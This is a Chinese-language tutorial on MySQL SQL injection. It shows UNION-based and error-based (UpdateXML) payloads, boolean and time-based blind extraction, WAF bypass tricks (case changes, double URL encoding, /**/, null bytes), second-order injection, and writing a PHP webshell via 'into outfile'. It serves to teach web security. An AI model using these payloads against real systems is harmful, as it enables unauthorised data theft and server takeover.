# sql基本语法

### select查询数据

```sql
select * from news where id=$id
```

### insert插入数据

```sql
insert into news(id,url,text) values(2,'x','$t');
```

### delete 删除数据

```sql
delete from news where id=$id
```

### update 更新数据

```sql
update user set pwd='$p' where id=2 and username='admin' 
```

# 小技巧

### group_concat



将一组数据连接到一个字段

# 信息收集

数据库版本:version()

数据库名字：database()

数据库用户:user()

操作系统：@@version_compile_os

# 提取表的列数

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。

请注意，==UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型==。同时，每条 SELECT 语句中的列的顺序必须相同。

```sql
SELECT column_name(s) FROM table_name1
UNION
SELECT column_name(s) FROM table_name2
```

注释：默认地，UNION 操作符选取不同的值。如果允许重复的值，请使用 UNION ALL。

==可以使用NULL来尝试，由于NULL值会被转换成任何数据类型，所以不用管他们必须返回相同的数据类型的限制==

```sql
select * from users where id = 1
UNION
select null,null,null
```

==这样可以加null，直到不返回错误，就知道第一个select语句查询的列数了。==

==除了上述方法，也可以使用order by 子句(根据指定的列对结果集进行排序)得到准确列数。==

```sql
select * from users where id = 1 order by 3
```

#### UNION两个查询返回的列的数据类型必须相似条件满足

==得到列数后，我们还需要满足第二个条件。==

==我们只需要一次一列使用我们的测试字符串替换NULL即可。==





可以发现第一列和第二列都可以存放字符串。

#### 提取数据库用户名和版本号



# 枚举数据库

要想获取远程数据库的表、列，就要访问专门保存描述各种数据库结构的表。通常将这些结构描述信息称为元数据。在MySQL中，这些表都保存在information_schema数据库中。

### 提取数据库

在MySQL中，数据库名存放在information_schema数据库下的schemata表schema_name字段中




==也可以通过database()获取数据库名==



### 提取表名

在MySQL中，表名存放在information_schema数据库中的tables表table_name字段中



```sql
id=1 union select table_name,null,null from information_schema.tables where table_schema='ichunqiu'
```

### 提取字段名

在MySQL中，字段存放在information_schema数据库中的columns表column_name字段中



### 提取数据



# 文件读写(MySQL)

load_file():读取函数(eg: select load_file('c:/Zen.txt') )

into outfile或 into dumpfile：导出函数(select 'x' into outfile 'd:/www.txt')

# 获取WebShell

利用SQL注入攻击获取WebShell其实就是向服务器写文件(这里我们需要得到网站的绝对路径)。

所有常用的关系数据库系统均包含内置的向服务器文件系统写文件的功能。

```sql
select into outfile(dumpfile)
```

eg:

```sql
select "<?php echo 'test'; ?>" into outfile "F:\\www\\test.php";
```

# SQL盲注

SQL盲注是指无法使用详细数据库错误消息或带内数据连接的情况下，利用数据库查询的输入审查漏洞从数据库提取信息或提取与数据库相关信息的技术。

### 基于报错

floor ， updateXML ， extractvalue

###### 通过SQL执行UpdateXML报错获得信息

```
UpdateXML(xml_target,xpath_expr,new_xml)
#此函数将xml_target中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML。
#xml_target被替换的部分与xpath_expr用户提供的XPath表达式匹配。
#如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 ml_targetXML片段。
#所有三个参数都应为字符串。
```

```sql
and UpdateXML(1,concat('~',(select table_name from information_schema.tables where table_schema='pikachu' limit 1)),1)# 
 
或者用于insert的:
or UpdateXML(1,concat('~',(select table_name from information_schema.tables where table_schema='pikachu' limit 1)),1) or

#xpath_expr是XPath格式的字符串(如果xpath_expr不是XPath格式，则会报错并显示出xpath_expr的值)

#concat()函数用于将多个字符串连接成一个字符串,目的是让拼接后的字符串不符合XPath格式使其报错,显示出要查的对象。
```



### 基于布尔

先介绍重要的SQL函数

```sql

like 'ro%'  #判断ro货ro...是否成立

regexp '^xiaodi[a-z]' #匹配xiaodi及xiaodi...登

if(条件,5,0)    #条件成立返回5 反之 返回0

sleep(5) #sql语句延时执行5秒

mid(a,b,c)  #从位置b开始，截取a字符串的c位

left(a,b) #从左侧截取a的前b位
```

```sql
select IF(1>2,1,2),IF(1<2,'yes','no'), IF(STRCMP('test','test1'),'no''yes');'
```

```sql
substring(str,pos,len) 

pos从1开始

没有len参数的形式返回一个字符串从字符串str从位置pos开始。一个len参数的形式返回len个字符长的字符串str的子串，从位置pos开始，形式使用的是标准的SQL语法。另外，也可以使用负的值为pos。在这种情况下，刚开始的子串位置的字符结尾的字符串，而不是开始。负的值可用于为pos在此函数中的任何形式的。

```

```sql
length(str)

返回字符串长度
```


```sql
ord(x) = ascii(x) 
返回ascii码
```

##### 获取数据库的用户名







### 基于时间

和基于布尔的SQL盲注技术原理大同小异，当某一状态为真时，让响应暂停几秒钟，而当状态为假时，不出现暂停



### 利用盲注获取数据库名







### 利用盲注获取表名

SQL LIMIT操作

```sql
select * from table LIMIT 5,10;   #返回第6-15行数据 
select * from table LIMIT 5;      #返回前5行 
select * from table LIMIT 0,5;    #返回前5行
```







### 利用盲注获取字段名





通过limit来移动到下一个字段

### 利用盲注获取表格数据







# 避开过滤方法总结

Web应用为了防御包括SQL注入在内的攻击，常常使用输入过滤器，这些过滤器可以在应用的代码中，也可以通过外部实现，比如Web应用防火墙和入侵防御系统。避开过滤的方法是灵活的。

### 大小写变种

这种技巧用于关键字阻塞过滤不聪明的时候，我们可以变换关键字字符串中字符的大小写来避开过滤，因为使用不区分大小写的方式处理SQL关键字。

```php
    //waf
    if(strstr($_GET["id"],'union')){
        die("llegal input");
    }

```





### URL编码

```php
function waf($id1){
    if(strstr($id1,' ') || strstr($id1,'/**/')){
        echo 'error:lllegal input';
        return;
    }
    return $id1;
}
```

双URL编码有时候会起作用，如果Web应用多次解码，在最后一次解码之前应用其输入过滤器。



因为双URL编码，第一次解码%2f%2a进入输入过滤器，所以成功绕过了。当然这个使用前提是后面有一个URL解码。

### SQL注释

很多开发人员认为，将输入限制为单个就可以限制sql注入攻击，所以他们往往就只是阻止各种空白符。

```php
    if(strstr($_GET["id"],' ')){
        die("llegal input space char");
    }
```



但是我们可以使用/**/来代替空格，进而绕过



### 空字节

通常的输入过滤器都是在应用程序之外的代码实现的。比如入侵检查系统，这些系统一般都是由原生编程语言开发而成，比如C++，为什么空字节能起作用呢，就是因为在原生编程语言中，根据字符串起始位置到第一个出现空字节的位置来确定字符串长度。所以空字节就有效的终止了字符串。

只需要在过滤器阻止的字符串前面提供一个采用URL编码的空字节即可，例如：

```php
%00' union select username,password from users where username='admin' --
```

# 二次SQL注入

- 攻击者在HTTP请求中提交某种经过构思的输入
- 应用存储该输入（通常保存在数据库中）以便后面使用并响应请求
- 攻击者提交第二个（不同）请求
- 为处理第二个请求，应用会检索已经存储的输入并处理它，从而导致攻击者注入的SQL查询被执行。
- 如果可行的话，会在应用对第二个请求的响应中向攻击者返回查询结果

### 例子

一个个人信息程序，我们可以更新我们的用户名，也可以查看我们的个人信息。

查看个人信息的SQL语句:

```sql
select * from users where username='$name'
```

查询的语句所使用到的变量name就是从数据库提取到的我们的用户名，所以我们可以先利用更新我们的用户名功能插入语句进数据库。

这样在查询个人信息时就成功的执行了我们的SQL注入攻击。

例如我们更新用户名为:

```sql
rl' or '1'='1
```

那么我们后面就执行了：

```sql
select * from users where username='rl' or '1'='1'
```


# 资料

渗透攻防Web篇-SQL注入攻击中级

https://bbs.ichunqiu.com/thread-9668-1-1.html?from=ch

渗透攻防Web篇-SQL注入攻击高级

https://paper.seebug.org/26/

SQL注入之insert/update/delete注入

https://blog.csdn.net/weixin_44426869/article/details/104326877